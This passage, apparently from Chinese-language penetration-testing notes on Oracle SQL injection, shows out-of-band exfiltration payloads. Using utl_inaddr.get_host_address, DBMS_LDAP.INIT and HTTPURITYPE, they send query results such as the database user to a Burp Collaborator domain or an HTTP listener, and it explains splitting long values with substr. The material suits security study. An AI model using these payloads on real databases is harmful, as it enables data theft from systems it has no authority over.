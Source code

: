 ### utl_inaddr.get_host_address()
使用dnslog外带数据

```sql
select utl_inaddr.get_host_address((select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net') from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_05_PcBOKgxL.png)



```sql
-- payload
and (select utl_inaddr.get_host_address((select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net') from dual) is not null
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_05_dMEz61Rg.png)



如果像数据库版本太长，会导致出错，既然要外带，就使用substr()函数来截取字符串，每次取几个特定的字符即可,下图是选择全长度的数据库，会直接报错

![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_05_5DLQ2bFd.png)

这里使用substr函数进行分割，一个一个获取
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_06_rmDnouPY.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_06_oJt3qUhr.png)

### SYS.DBMS_LDAP.INIT()函数

```sql
select SYS.DBMS_LDAP.INIT((select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net',80) from dual
```
![image.png](Oracle 注入基础.assets/1632647252940-bf3f07ae-1907-49b6-bfa7-cecaaffa2f0d.png)

![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_06_prXZCjDs.png)





### HTTPURITYPE()
同样需要python起一个http服务，或者nc创建监听，或者dnslog外带
```sql
select HTTPURITYPE('http://172.17.0.1:8888/'||(select user from dual)).GETCLOB() FROM DUAL
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_06_RD1CfTM5.png)



```sql
and (select HTTPURITYPE('http://'||(select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net').GETCLOB() FROM DUAL) is not null
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_07_9Z4BUR7W.png)
